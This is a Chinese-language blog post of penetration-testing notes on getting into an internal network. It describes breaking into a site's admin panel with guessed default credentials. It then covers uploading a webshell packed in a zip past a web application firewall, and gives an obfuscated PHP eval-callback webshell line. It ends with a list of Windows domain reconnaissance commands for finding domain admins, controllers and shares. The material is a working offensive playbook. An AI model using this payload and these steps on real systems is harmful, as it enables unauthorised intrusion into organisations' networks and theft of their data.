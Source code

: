 ```yaml
---
layout:     post
title:      内网资料
subtitle:   内网资料备份
date:       2019-04-26
author:     BugMan
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - 内网
    - 渗透测试
---
```


# 内网资料备份
### 获取 webshell 进内网

测试主站，搜 wooyun 历史洞未发现历史洞，github, svn, 目录扫描未发现敏感信息, 无域传送，端口只开了80端口，找到后台地址，想爆破后台，验证码后台验证，一次性，用 ocr 识别，找账号，通过 google，baidu，bing 等搜索，相关邮箱，域名等加常用密码组成字典，发现用户手册，找账号，发现未打码信息，和默认密码，试下登陆成功，找后台，上传有 dog，用含有一句话的 txt 文件 

> \````

打包为 zip，php 文件 

> \```` 

即可，c 刀被拦，修改 config.ini 文件

> ```
> php_make @eval(call_user_func_array(base64_decode,array($_POST[action])));
> ```

用回调函数，第一个为函数名，二个为传的参数

### 前期信息收集

> query user || qwinsta 查看当前在线用户
>
> net user  查看本机用户
>
> net user /domain 查看域用户
>
> net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
>
> net view /domain 查看有几个域
>
> net view \\\\dc  查看 dc 域内共享文件
>
> net group /domain 查看域里面的组
>
> net group "domain admins" /domain 查看域管
>
> net localgroup administrators /domain  /这个也是查域管，是升级为域控时，本地账户也成为域管
>
> net group "domain controllers" /domain 域控
>
> net time /domain 
>
> net config workstation  当前登录域 - 计算机名 - 用户名
>
> net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
>
> ipconfig